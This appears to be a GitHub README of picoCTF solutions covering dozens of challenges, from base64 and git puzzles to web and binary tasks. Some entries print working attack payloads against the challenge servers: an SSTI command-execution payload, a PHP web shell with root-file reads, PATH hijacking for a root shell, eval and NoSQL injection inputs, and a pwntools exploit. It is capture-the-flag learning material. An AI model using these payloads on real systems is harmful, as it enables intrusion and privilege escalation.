





# PicoCTF

### USE THIS ONLY IF YOUR REALLY STUCK AND TIRED OF FINDING THE PASSWORD AND HAVE NO OTHER WAY.

## THIS IS THE LAST OPTION.

## Verify

```
for file in files/*; do   ./decrypt.sh "$file"; done
```


## Scan Suprise

Extract challenge.zip

Scan with QR Scanner


## Binary Search

Use this Python script:

```
low, high = 1, 1000

for _ in range(10):
    guess = (low + high) // 2
    print(guess)
    output = input()
    
    if "Higher" in output:
        low = guess + 1
    elif "Lower" in output:
        high = guess - 1

print("DONE")
```
**Example:**


## heap 0

See the addresses: `0x5bd0e822e2b0` and `0x5bd0e822e2d0`. It is 32 byte gap So inputting a string of length > 32 characters will modify the bico and we gain access to the flag.

```
2
```
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAHELLO
```


## format string 0

The input 
```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
Works because this leads to segmentation fault, which prints the flag.


## WebDecode


## Unminify


## Time Machine

Run this command on the folder where .git is present
```
git log --oneline
```


## Super SSH

Just Login

## endianness

Run the code then use this python script
```
def find_little_endian(word):
    # Reverse the string and convert each character to hexadecimal
    return "".join(f"{ord(c):02X}" for c in reversed(word))

def find_big_endian(word):
    # Convert each character to hexadecimal in order
    return "".join(f"{ord(c):02X}" for c in word)

# Example word from server
word = "weiwo"

# Compute endianness representations
little_endian = find_little_endian(word)
big_endian = find_big_endian(word)

print("Little Endian:", little_endian)
print("Big Endian:", big_endian)

```


## CanYouSee

Unzip the file

```
exiftool ukn_reality.jpg
```


The Text is clearly a Base 64 Cipher

cGljb0NURntNRTc0RDQ3QV9ISUREM05fYjMyMDQwYjh9Cg==

This gives the flag


## Glory of the Garden

```
strings garden.jpg
```


## information

```
exiftool cat.jpg
```


cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9

It is Base 64


## Secret of the Polyglot

```
foremost flag2of2-final.pdf
```

First part of flag in PNG image

Second part of the flag in the PDF (Open PDF in Chrome)


## Ph4nt0m 1ntrud3r

```
tshark -r myNetworkTraffic.pcap -Y "tcp.len!=8" -T fields -e frame.time -e tcp.segment_data | sort -k4 | awk '{print $6}' | xxd -p -r | base64 -d
```


## RED

```
zsteg red.png
```
cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==cGljb0NURntyM2RfMXNfdGgzX3VsdDFtNHQzX2N1cjNfZjByXzU0ZG4zNTVffQ==

Now put the data in Base64 decoder


## flags are stepic

```
curl http://standard-pizzas.picoctf.net:57324/
```

By asking AI which country doesnt exists gives us
```
Upanzi, Republic The
```

Download the png gives us a Very Large image of upz.png

run
```
stepic -d -i upz.png
```


## Big Zip

```
grep -r "picoCTF"
```


## First Find

```
grep -r "picoCTF"
```


## FANTASY CTF

Press Enter till prompt for a/b/c
```
c
```
Press Enter till prompt for a/b
```
a
```
Press Enter till you find the flag


## Commitment Issues

```
git show
```


## Collaborative Development

```
git merge feature/part-1
git merge feature/part-2
git merge feature/part-3
```


## Blame Game

```
git blame message.py
```


## binhexa

Follow the game and perform the operations


## hashcrack

Use Hash cracking websites
```
482c811da5d5b4bc6d497ffa98491e38
```
```
password123
```
```
b7a875fc1ea228b9061041b7cec4bd3c52ab3ce3
```
```
letmein
```
```
916e8c4f79b25028c9e467f1eb8eee6d6bbdff965f9928310ad30a8d88697745
```
```
qwerty098
```


## EVEN RSA CAN BE BROKEN???

Use RSA Website and put N and e values


## Mod 26

Use ROT13 decoder


## The Numbers

Convert list to numbers
a=1, b=2, c=3 ...
```
l=[16,9,3,15,3,20,6,0,20,8,5,14,21,13,2,5,18,19,13,1,19,15,14,0]
for i in l:
    print(chr(i+ord('a')-1),end='')
```


## 13

Use ROT13 decoder


## interencdec

Base 64

Base 64

Caesar Cipher


## repetitions

Multiple BASE 64 Encoding

Decode base64 till you get answer


## runme.py

Just run the python code


## fixme1.py

Remove indentation before print


## Glitch Cat

nc to the server and convert chr to ascii by Python


## HashingJobApp

Use MD5 encoding website

NOTE: Don't Include quotes 


## convertme.py

Since it is running locally, We can force the `if` statement to be true

Change
```
if ans_num == num:
```

To
```
if ans_num == num or True:
```


## fixme2.py

if statement should have `==` NOT `=`


## Codebook

Run python code


## Magikarp Ground Mission

```
ls
cat instructions-to-2of3.txt
cat 1of3.flag.txt
cd /
ls
cat 2of3.flag.txt
cat instructions-to-3of3.txt
cd ~
ls
cat 3of3.flag.txt
```


## Tab, Tab, Attack

Use `cd` then `Tab` `Tab` `Tab` ...
```
cd Addadshashanammu/Almurbalarammi/Ashalmimilkala/Assurnabitashpi/Maelkashishi/Onnissiralis/Ularradallaku/
```

./ `Tab`
```
./fang-of-haynekhtnamet
```


## Wave a flag

```
./warm -h
```


## Python Wrangling

```
python3 ende.py -d flag.txt.en
```


## Static ain't always noise

```
./ltdis.sh static
```
```
cat static.ltdis.strings.txt
```


## Nice netcat...

It is ASCII, Use ASCII to TEXT


## Obedient Cat

```
cat flag
```


## 2Warm

Python
```
bin(42)
```


## First Grep

cat file | grep "picoCTF"


## Bases

Base64


## Warmed Up

```
int('0x3D',16)
```


## strings it

```
strings strings | grep "picoCTF"
```


## what's a net cat?

```
nc jupiter.challenges.picoctf.org 64287
```


## Lets Warm Up

Python
```
chr(int('0x70',16))
```


## Transformation

Python
```
file_path = "enc"

with open(file_path, "r", encoding="utf-8") as f:
    encrypted_data = f.read()


decrypted_flag = ""

for char in encrypted_data:
    num = ord(char)  # Get the numeric representation
    first_char = chr(num >> 8)  # Extract the first character
    second_char = chr(num & 0xFF)  # Extract the second character
    decrypted_flag += first_char + second_char


decrypted_flag = decrypted_flag.rstrip("\x00")

print(decrypted_flag)
```


## vault-door-training

Password is within the file, Put it within picoCTF{...}
```
cat VaultDoorTraining.java
```


## SSTI1

Server-Side Template Injection (SSTI)
```
{{7*7}}
```
```
{{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```


## head-dump

Click on `# API-Documentation`

This opens
```
http://verbal-sleep.picoctf.net:56550/api-docs/
```

Now It says there is a `/heapdump`
```
http://verbal-sleep.picoctf.net:56550/heapdump
```

This prompts to download heapdump of the website

Now 
```
cat heapdump-1743316813402.heapsnapshot  | grep "picoCTF"
```


## WebDecode

Navigate to About page
```
http://titan.picoctf.net:59394/about.html
```

Now open Inspect mode

See notify_true
```
cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDJjZGNiNTl9
```

It is a Base64

Decoding gives the flag


## Unminify

Inspect the page, and see the source code


## Inspect HTML

Inspect the page, Flag is written in comments


## Includes

Inspect then, Open Networks tab, Refresh the page

See the .css and .js

The flags are written there


## where are the robots

Try opening robots.txt

```
http://jupiter.challenges.picoctf.org:60915/robots.txt
```

It says 
```
User-agent: *
Disallow: /8028f.html
```

Now open 
```
http://jupiter.challenges.picoctf.org:60915/8028f.html
```


## Insp3ct0r

Inspect the page,

HTML codes gives part 1 of the flag

Now open sources and see the .css and .js for other two parts of the flag.


## logon

Login with anything

Open Applications then Cookies

Here you see Admin : False

Make Admin to True and then Refresh the page


## dont-use-client-side

Inspect the page

See function verify

Write it in order, the order is like `checkpass.substring(<START> <END>)`


## GET aHEAD

```
curl -I http://mercury.picoctf.net:47967/
```


## Scavenger Hunt

Inspect the website:

```
wget -r http://mercury.picoctf.net:27278/
```

This gives 3 parts of the flag
```
cat *
```

For the fourth part, since it is an `apache server` Given in comments of the last file.

```
curl -s http://mercury.picoctf.net:27278/.htaccess
```

For the fifth part, It is given its done on Mac, so try
```
curl -s http://mercury.picoctf.net:27278/.DS_Store
```

This completes all five parts of the flag


## Cookie Monster Secret Recipe

First Enter random username and password and click on login. Inspect and go to Applications Then cookies. You can see one cookie named secret_recipe: Ckick on `Show URL decoded`. Now this is BASE64 Encoding.


## Cookies

See the cookies, Each cookie value shows a different text. Use this bash code to search for pico

```
for i in {0..100}; do r=$(curl -s -L --cookie "name=$i" http://mercury.picoctf.net:64944/); echo "$r" | grep -q "pico" && echo "Found at name=$i: $r" && break; done
```


## Bookmarklet

Opening the website shows the encoded flag with the function used to encode it. We just reverse the process.

```
encrypted = "àÒÆަȬë٣֖ÓÚåÛÑ¢Õӗ¨Í•ÕĦ–í"
key = "picoctf"
decrypted = ""

for i in range(len(encrypted)):
    e = ord(encrypted[i])
    k = ord(key[i % len(key)])
    decrypted += chr((e - k + 256) % 256)

print(decrypted)
```


## Local Authority

First entering random values for username and password and clicking on submit gives us `Login Failed`. Now inspecting the page gives us that it is checking the `secure.js` file. 
On curling the `secure.js`

```
curl http://saturn.picoctf.net:57430/secure.js
```

We get the username and password

Entering the username and password gives us the flag.


## hash-only-1

After loggin in we can see the terminal.

We can bypass and read the flag

```
echo '#!/bin/bash' > md5sum
echo '/bin/sh' >> md5sum
chmod +x md5sum
export PATH=.:$PATH
./flaghasher
```

Now it gives you a # Terminal
type 
```
cat /root/flag.txt
```


## hash-only-2

After loggin in we can see the terminal.

We can bypass and read the flag

Since we dont have permissing to run any thing we open anything here we use bash to open a new shell

```
bash
```

```
echo '#!/bin/bash' > md5sum
echo '/bin/sh' >> md5sum
chmod +x md5sum
export PATH=.:$PATH
flaghasher
```

Now it gives you a # Terminal
type 
```
cat /root/flag.txt
```


## two-sum

You have to cause Integer overflow
so enter

```
2147483647 1
```

It will overflow


## hijacking

The files are hidden

```
ls -la
```
vi works
```
vi /home/picoctf/.server.py
```

Add this at the beginning

```
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
```

It should be like this
```
picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip)
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
import os
os.setuid(0)  # Change the user ID to root
os.system('/bin/bash')  # Execute a shell as root
print("Hello, this is a part of information gathering",'Host: ', host_info)
```

Adding at the end doesnt work as the code fails getting serverhost

```
sudo -l 
```

Gives 
```
Matching Defaults entries for picoctf on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
    (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py
```


Now we are root so we can go to `/root`
and then `ls -la` and read the flag

```
cd /root
ls -la
cat .flag.txt
```


## PIE TIME

```
from pwn import *  
  
hostname ='rescued-float.picoctf.net'
port = 53223
p = remote(hostname, port)
p.recvuntil(b"main: ")  
main_addr = int(p.recvline().strip(), 16)  
win_addr = main_addr - 0x96  
p.sendline(hex(win_addr))  
p.recvuntil(b"You won!\n")  
flag = p.recvline()  
print(flag.strip().decode("utf-8"))  
p.close()
```


## n0s4n1ty 1

Make a php payload and upload it

```
<?=`$_GET[cmd]`?>
```

Now you can run this to get the flag
```
http://standard-pizzas.picoctf.net:65172/uploads/shell.php?cmd=sudo%20ls%20-la%20/root
```
```
http://standard-pizzas.picoctf.net:65172/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```


## PW Crack 1

On seeing the Python code provided, We can see that the password is being compared with `1e1a`. So entering `1e1a` as the password, we can obtain the flag


## PW Crack 2

On seeint the python code provided we can see that the passowrd is written in hex which is converted to chr when comparing. So we can take only that part and run it on python to see what it gives



Using this passowrd gives the flag


## Flag Hunters

Using input as this gives the flag

```
;RETURN 0
```


## Rust fixme 1

The code has errors, So fix the code: 

This is the fixed code

```
use xor_cryptor::XORCryptor;

fn main() {
    // Key for decryption
    let key = String::from("CSUCKS"); // <-- Added missing semicolon

    // Encrypted flag values
    let hex_values = [
        "41", "30", "20", "63", "4a", "45", "54", "76", "01", "1c", "7e", "59",
        "63", "e1", "61", "25", "7f", "5a", "60", "50", "11", "38", "1f", "3a",
        "60", "e9", "62", "20", "0c", "e6", "50", "d3", "35"
    ];

    // Convert the hexadecimal strings to bytes and collect them into a vector
    let encrypted_buffer: Vec<u8> = hex_values.iter()
        .map(|&hex| u8::from_str_radix(hex, 16).unwrap())
        .collect();

    // Create decryption object
    let res = XORCryptor::new(&key);
    if res.is_err() {
        return; // <-- Fixed from `ret` to `return`
    }
    let xrc = res.unwrap();

    // Decrypt flag and print it out
    let decrypted_buffer = xrc.decrypt_vec(encrypted_buffer);
    println!(
        "{}", // <-- Fixed `:?` to `"{}"` and use correct formatting
        String::from_utf8_lossy(&decrypted_buffer)
    );
}
```

Compile with
```
cargo build
cargo run
```


## Rust fixme 2

The code has errors, So fix the code: 

This is the fixed code

```
use xor_cryptor::XORCryptor;

fn decrypt(encrypted_buffer: Vec<u8>, borrowed_string: &mut String) {
    // Key for decryption
    let key = String::from("CSUCKS");

    // Editing our borrowed value
    borrowed_string.push_str("PARTY FOUL! Here is your flag: ");

    // Create decryption object
    let res = XORCryptor::new(&key);
    if res.is_err() {
        return;
    }
    let xrc = res.unwrap();

    // Decrypt flag and print it out
    let decrypted_buffer = xrc.decrypt_vec(encrypted_buffer);
    borrowed_string.push_str(&String::from_utf8_lossy(&decrypted_buffer));
    println!("{}", borrowed_string);
}

fn main() {
    // Encrypted flag values
    let hex_values = [
        "41", "30", "20", "63", "4a", "45", "54", "76", "01", "1c", "7e", "59",
        "63", "e1", "61", "25", "0d", "c4", "60", "f2", "12", "a0", "18", "03",
        "51", "03", "36", "05", "0e", "f9", "42", "5b"
    ];

    let encrypted_buffer: Vec<u8> = hex_values.iter()
        .map(|&hex| u8::from_str_radix(hex, 16).unwrap())
        .collect();

    let mut party_foul = String::from("Using memory unsafe languages is a: ");
    decrypt(encrypted_buffer, &mut party_foul);
}

```

Compile with
```
cargo build
cargo run
```


## Rust fixme 3

The code has errors, So fix the code: 

This is the fixed code

```
use xor_cryptor::XORCryptor;

fn decrypt(encrypted_buffer: Vec<u8>, borrowed_string: &mut String) {
    // Key for decryption
    let key = String::from("CSUCKS");

    // Editing our borrowed value
    borrowed_string.push_str("PARTY FOUL! Here is your flag: ");

    // Create decryption object
    let res = XORCryptor::new(&key);
    if res.is_err() {
        return;
    }
    let xrc = res.unwrap();

    // Decrypt the flag
    let decrypted_buffer = xrc.decrypt_vec(encrypted_buffer);

    // No need for unsafe: String::from_utf8_lossy handles invalid UTF-8 safely
    borrowed_string.push_str(&String::from_utf8_lossy(&decrypted_buffer));

    println!("{}", borrowed_string);
}

fn main() {
    // Encrypted flag values
    let hex_values = [
        "41", "30", "20", "63", "4a", "45", "54", "76", "12", "90", "7e", "53", "63", "e1",
        "01", "35", "7e", "59", "60", "f6", "03", "86", "7f", "56", "41", "29", "30", "6f",
        "08", "c3", "61", "f9", "35"
    ];

    // Convert the hexadecimal strings to bytes
    let encrypted_buffer: Vec<u8> = hex_values.iter()
        .map(|&hex| u8::from_str_radix(hex, 16).unwrap())
        .collect();

    let mut party_foul = String::from("Using memory unsafe languages is a: ");
    decrypt(encrypted_buffer, &mut party_foul);
}

```

Compile with
```
cargo build
cargo run
```


## IntroToBurp

First enter anything it doesnt matter.
Then on the 2FA page use BurpSuite `https://portswigger.net/burp/releases/professional-community-2025-2-4`

Open the Proxy tab and open Intercept



Remove the OTP and forward the request




## 3v@l

Its a python code running eval inside it. The flag is located in `/`

```
__import__('o'+'s').popen('ca'+'t * ').read()
__import__('o'+'s').popen('l'+'s '+chr(47)).read()
__import__('o'+'s').popen('ca'+'t'+chr(32)+chr(47)+'f'+'l'+'a'+'g'+'.'+'t'+'x'+'t').read()
```

## WebSockFish

You can do this but
```
game.clear();
game.put({ type: 'k', color: 'b' }, 'e8');   // black king
game.put({ type: 'r', color: 'w' }, 'a8');   // white rook
game.put({ type: 'q', color: 'w' }, 'h7');   // white queen

stockfish.postMessage("position fen " + game.fen());
stockfish.postMessage("go depth 15");
```

But it doesn't run the sendMessage

So we manually send the eval

```
sendMessage("eval -100000");
```


## Event-Viewing

First using Windows Event viewer we get and sorting by event id:

There are couple of warnings and below that is what has got installed.

On seeing there is one installer which says `Totally_Legit_Software` which is suscipious


Now using python
```
from Evtx.Evtx import Evtx

def evtx_file(file_path):
    xml_records = []
    try:
        with Evtx(file_path) as log:
            for record in log.records():
                xml_records.append(record.xml())
    except FileNotFoundError:
        print("Error: File not found. Please check the file path and try again.")
    except Exception as e:
        print(f"An error occurred: {e}")
    return xml_records

if __name__ == "__main__":
    file_path = input("EVTX file: ").strip()
    records = evtx_file(file_path)
    for rec in records:
        print(rec)
```

Running this to save the output to a text file:
```
python3 1.py >out.txt
```

Give input as
```
Windows_Logs.evtx
```

We get,

On analysing we get the 3 parts of the flag encoded in base64


## No Sql Injection
NoSqlInjection

using cat on the files for `pico` gives us:


Username: `picoplayer355@picoctf.org`

For the password we can give 

Password: `{"$ne":null}`

This gives us the admin panel

Once in admin page run on the console
```
sessionStorage.getItem('token')
```


## FindAndOpen

On seeing the wireshark outputs have a closer look on Packet 48


Exclude the Header and copy the text

Cipher Detector says its `BASE 64`

Decoding with Base 64 gives us the Partial Flag


Using this partial flag to Open the Zip file Reads the Entire flag.


## DISKO 1

First Extract the `.gz` file. Then Using 
```bash
strings disko-1.dd | grep "pico"
```

We get the flag


## 
